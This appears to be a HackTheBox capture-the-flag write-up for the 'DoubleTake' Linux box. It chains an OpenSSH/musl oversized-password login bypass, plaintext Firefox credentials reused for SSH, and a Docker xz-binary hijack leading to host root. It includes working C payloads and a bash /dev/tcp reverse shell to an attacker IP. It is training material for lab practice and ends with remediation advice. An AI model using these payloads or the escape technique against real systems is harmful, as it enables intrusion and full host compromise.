





+++
title = "DoubleTake"
date = 2026-11-16
description = "Easy Linux box. OpenSSH 10.6 on musl lets a 257-byte password walk past login as a key-only account, Firefox creds pivot to bob and get reused on a locked web app, and the app's archive-extract feature triggers a Docker decompression-binary hijack (CVE-2026-41567) that runs as host root for a container escape."
draft = false

[taxonomies]
tags = ["Public CVE", "sshole", "CVE-2026-123158", "CVE-2026-41567", "Docker", "Authentication bypass", "Plaintext credentials", "Password reuse", "Container escape"]

[extra]
platform = "htb"
os = "linux"
difficulty = "easy"
chain = ["OpenSSH musl long-password bypass", "Firefox logins.json creds", "Password reuse to bob", "Docker xz decompression hijack", "Escape via /proc/1/root"]
+++

DoubleTake is easy but the chain is current: the two bugs that were all over my feed this month, back to back. A long-password bypass in openssh for the foothold, and the docker xz decompression hijack for root. Everything on the web app is locked behind basic auth, so the box has to start at ssh.

## Recon

```bash
nmap -sCV -p- -Pn 10.129.209.142 -v -oN nmap/tcp_full.txt --min-rate 1500
```

```text,hl_lines=2
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.6 (protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-auth: 
|_  Basic realm=Zentara
|_http-server-header: nginx/1.24.0 (Ubuntu)
```

Two ports. 80 answers with a 401 and a `Basic realm=Zentara`, so there is no app without a login. 22 is `OpenSSH 10.6`, and exactly that version went through the press like a storm the past weeks. Note the http server says Ubuntu. i held onto that for later, because the thing i land on first turns out not to be the ubuntu host.

### web is a wall

The way with htb is to go for web first on linux boxes, but this time it's a dead end after two minutes.

```bash
feroxbuster -u http://10.129.209.142/ \
  -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt \
  -o raft_big.txt
```

```text,hl_lines=6 8
401      GET        0l        0w        0c http://10.129.209.142/
401      GET        0l        0w        0c http://10.129.209.142/files
401      GET        0l        0w        0c http://10.129.209.142/docs
401      GET        0l        0w        0c http://10.129.209.142/usage
401      GET        0l        0w        0c http://10.129.209.142/settings
401      GET        0l        0w        0c http://10.129.209.142/status
401      GET        0l        0w        0c http://10.129.209.142/agents
401      GET        0l        0w        0c http://10.129.209.142/deploy
```

The endpoints are there, `/deploy`, `/status`, `/agents`, and every single one is 401. Googling the endpoint names to find out what the app is built on went nowhere too. so the web is parked until i have a login, and the only other door is ssh.

## Foothold: OpenSSH musl long-password bypass

The `OpenSSH 10.6` banner is CVE-2026-123158, the one the press called `*sshole`. It needs a musl-based linux (alpine) with sshd running without PAM. musl's `crypt()` caps the password at 256 bytes and answers anything longer with a bare `*`. A key-only account has exactly that `*` in its shadow field, so sshd compares the `*` it got back against the `*` that is stored, they match, and the login goes through. sshd itself stops reading a password at 1024 bytes, so anything from 257 to 1024 bytes does it.

```bash
python3 -c 'print("A"*257)'
```

Paste that as the password for `alpine`, twice:

```bash
ssh alpine@10.129.209.142
```

```text,hl_lines=4
alpine@10.129.209.142's password: 
Permission denied, please try again.
alpine@10.129.209.142's password: 
Welcome to Alpine!
7f906e0ee8ec:~$ id
uid=1000(alpine) gid=1000(alpine) groups=1000(alpine)
```

The first try gets denied and the same 257 bytes land on the second. That is how the bug behaves when the `*` sits in `/etc/shadow` and sshd runs with default settings: the first oversized password in a connection is rejected, the next one goes through. The prompt is `7f906e0ee8ec`, a container id, and the motd says Alpine, which is the precondition the bug needs.

### firefox creds in the home dir

```bash
cat .mozilla/firefox/zentara.default/logins.json
```

```text
{"nextId":2,"logins":[{"id":1,"hostname":"http://172.17.0.1","httpRealm":"Zentara","formActionOrigin":null,"usernameField":"","passwordField":"","encryptedUsername":"Ym9i","encryptedPassword":"Q29ycmVjdEhvcnNlQmF0dGVyeVN0YXBsZQ==","guid":"{a1b2c3d4-e5f6-7890-abcd-ef1234567890}","encType":0,"timeCreated":1730000000000,"timeLastUsed":1730900000000,"timePasswordChanged":1730000000000,"timesUsed":14}],"potentiallyVulnerablePasswords":[],"dismissedBreachAlertsByLoginGUID":{},"version":3}
```

`"encType":0` means these were never encrypted, and the password smells like base64. The realm is `Zentara`, the same realm the web app threw at me. And the hostname is `172.17.0.1`, docker's default bridge gateway, so whoever saved this login was talking to the host from inside a container.

```bash
echo "Q29ycmVjdEhvcnNlQmF0dGVyeVN0YXBsZQ==" | base64 -d
```

```text
CorrectHorseBatteryStaple
```

`Ym9i` decodes to `bob`.

## Lateral: alpine to bob

Try that against ssh as bob:

```bash
ssh bob@10.129.209.142
```

```text
bob@10.129.209.142's password: 
Welcome to Alpine!
7f906e0ee8ec:~$ id
uid=1001(bob) gid=1001(bob) groups=1001(bob)
```

Same container id in the prompt, so bob is a second user in the same container. The user flag sits in bob's home. The login was saved for the `Zentara` realm, so the same creds are the web basic-auth login and the app finally opens.

## Enumeration over the web app

Zentara is a chat frontend for coding agents, with a workspace the agents run in:



The box got respawned along the way, so some of the screenshots show `10.129.209.185`. Same machine, new IP.

`/status` shows the engine sitting behind the app:



Docker 29.5.0. `/deploy` takes an archive and extracts it into the agent workspace:



and `/docs` says how that happens behind the form:



So my upload goes straight to `PUT /containers/<container_name>/archive`, with a target path i get to choose.

Searched the version and landed on CVE-2026-41567. For xz and gzip archives the daemon decompresses by shelling out to `xz` or `unpigz`, and it resolves that binary from the container's filesystem while running as host root. So a planted `/usr/bin/xz` in the container runs as host root the moment an xz archive gets extracted. 29.5.1 is the fix, this is 29.5.0.

## Privesc: Docker decompression hijack to host root

The plan: replace the container's `/usr/bin/xz` with my own binary, then upload an xz-compressed archive so the daemon runs it.

The payload binary, static against musl so it runs on alpine. This one only proves execution:

```c
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setregid(0, 0);
    setreuid(0, 0);
    system("id > /tmp/xzlog 2>&1; echo DONE >> /tmp/xzlog");
    return 0;
}
```

```bash
musl-gcc -static -O2 -o xz xz.c
mkdir -p pkg/usr/bin
mv xz pkg/usr/bin/xz
cd pkg
tar cf ../mali.tar usr/bin/xz
```

`mali.tar` is a plain uncompressed tar, so extracting it needs no `xz`, it just drops the file into place. Before the upload, from the bob session:

```bash
ls -la /usr/bin/xz
```

```text
-rwxr-xr-x    1 root     root         96680 Sep  9 21:27 /usr/bin/xz
```

Upload it through `/deploy` with the target path set to `/`:



and the binary is swapped:

```text
-rwxrwxr-x    1 alpine   alpine       30616 Nov 16 12:18 /usr/bin/xz
```

It shows up as `alpine:alpine` because the tar carries my kali uid 1000, and uid 1000 in the container is alpine.

Now the trigger. An xz-compressed archive, so the daemon shells out to `xz` to decompress it and runs mine:

```bash
touch triggit t && tar cJf trigger.tar.xz triggit
```

Upload `trigger.tar.xz` the same way, then read the log from the bob ssh session:

```text
uid=0(root) gid=0(root)
DONE
```

root execution. Next question is what that root can actually touch.

### the suid shell that won't elevate

First instinct was a suid shell for the bob session. busybox is the only shell on alpine, so i copied it suid-root:

```c
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setregid(0, 0);
    setreuid(0, 0);
    system(
        "export PATH=/usr/bin:/bin:/sbin:/usr/sbin; "
        "id > /tmp/xzlog 2>&1; "
        "cp /bin/busybox /tmp/rootsh >>/tmp/xzlog 2>&1; "
        "chmod 4755 /tmp/rootsh >>/tmp/xzlog 2>&1; "
        "echo DONE >> /tmp/xzlog"
    );
    return 0;
}
```

```text
-rwsr-xr-x    1 root     root        808712 Nov 16 13:02 rootsh
```

suid root, owned root. But running it:

```bash
/tmp/rootsh
```

```text
rootsh: applet not found
```

busybox picks its applet from `argv[0]`, and there is no applet called rootsh. A symlink gives it a real name, and the suid still applies through the link:

```bash
ln -sf /tmp/rootsh /tmp/sh
/tmp/sh
```

```text
/tmp $ id
uid=1001(bob) gid=1001(bob) groups=1001(bob)
```

euid is still bob. `/tmp` is no separate mount, so there is no `nosuid` in the way. busybox drops privileges itself unless it was built to keep them. The chroot applet says the same:

```bash
ln -sf /tmp/rootsh /tmp/chroot
/tmp/chroot / sh
```

```text
chroot: can't change root directory to '/': Operation not permitted
```

so the suid route is dead, and the root work has to happen inside the payload itself.

### what the root context actually is

Reading the flag from inside the payload:

```text
cp: can't stat '/root/root.txt': No such file or directory
```

No root flag there. The mount table from the bob session says why, with the long overlay line for `/` cut:

```bash
mount
```

```text,hl_lines=3-6
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755,inode64)
/dev/sda4 on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro)
/dev/sda4 on /etc/hostname type ext4 (rw,relatime,errors=remount-ro)
/dev/sda4 on /etc/hosts type ext4 (rw,relatime,errors=remount-ro)
/dev/sda4 on /home/bob/user.txt type ext4 (ro,relatime,errors=remount-ro)
```

`user.txt` is bind-mounted in from `/dev/sda4`, the host disk. The flags live on the host, the ubuntu box from the nmap banner, and there is no root flag inside the container.

### /proc/1/root is the way out

The payload runs as root, so it can mount a fresh `proc`. The helper the daemon spawns runs in the host pid namespace, so pid 1 is the host init and its root filesystem is reachable at `/proc/1/root`:

```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/mount.h>

int main(void) {
    setregid(0, 0);
    setreuid(0, 0);
    mount("proc", "/proc", "proc", 0, NULL);
    system(
        "export PATH=/usr/bin:/bin:/sbin:/usr/sbin; "
        "cat /proc/1/comm > /tmp/pid1 2>/tmp/rtlog; "
        "cat /proc/1/root/root/root.txt > /tmp/rt 2>>/tmp/rtlog; "
        "chmod 644 /tmp/rt; echo DONE >> /tmp/rtlog"
    );
    return 0;
}
```

```bash
cat /tmp/pid1
```

```text
systemd
```

pid 1 is `systemd`, so that is the host. `cat /tmp/rt` from the bob session is the root flag.

### a host shell

The flag is nice, a shell is nicer. Same idea, but `chroot` into `/proc/1/root` and exec a bash reverse shell.

The catch: the daemon kills the decompression binary the moment extraction ends, and a shell in that process dies with it. So double-fork, let the parent exit clean, and the child reparents to systemd and lives.

```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/mount.h>

int main(void) {
    setregid(0, 0);
    setreuid(0, 0);

    if (fork() > 0) _exit(0);   /* parent exits -> extraction completes, no kill */
    setsid();                   /* detach from the extraction session */
    if (fork() > 0) _exit(0);   /* double-fork -> reparented to systemd */

    mount("proc", "/proc", "proc", 0, NULL);
    chroot("/proc/1/root");
    chdir("/");
    execl("/bin/bash", "bash", "-c",
          "bash -i >& /dev/tcp/10.10.15.68/1338 0>&1", NULL);
    _exit(1);
}
```

Build it, repack as `/usr/bin/xz`, upload, re-trigger with the xz archive, listener up:

```bash
penelope -i tun0 -p 1338
```

```text,hl_lines=3
[+] [New Reverse Shell] => doubletake 10.129.209.185 Linux-x86_64 👤 root(0) 😍️ Session ID <1>
root@doubletake:/# id
uid=0(root) gid=0(root) groups=0(root)
```

Host root, and the hostname is `doubletake` instead of a container id.

```bash
ifconfig
```

```text,hl_lines=2
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.209.185  netmask 255.255.0.0  broadcast 10.129.255.255
```

`docker0` is `172.17.0.1`, the hostname from the `logins.json`.

done.

## What could Zentara improve?

- patch openssh in the container image to 10.6p2, or set `PasswordAuthentication no`.
- no saved logins in a firefox profile with `"encType":0`, and no reuse of the web password for ssh.
- patch docker to 29.5.1 for CVE-2026-41567.
- don't let a web user push archives into a container with a target path they choose.

## Appendix

- [OpenSSH](https://www.openssh.com/)
- [StepSecurity on CVE-2026-123158 (`*sshole`)](https://www.stepsecurity.io/blog/cve-2026-123158-sshhole-openssh-musl-password-bypass), for the rejected first attempt
- [TuxCare on CVE-2026-123158](https://tuxcare.com/blog/the-ssh-authentication-bypass-that-lived-between-openssh-and-musl-cve-2026-123158/), for the 257 to 1024 byte window
- [musl libc](https://musl.libc.org/)
- [CVE-2026-41567 (Tenable plugin 324948)](https://www.tenable.com/plugins/nessus/324948)
- [moby security advisory GHSA-x86f-5xw2-fm2r](https://github.com/moby/moby/security/advisories/GHSA-x86f-5xw2-fm2r)
- [BusyBox](https://www.busybox.net/)
- [feroxbuster](https://github.com/epi052/feroxbuster)
- [penelope](https://github.com/brightio/penelope)
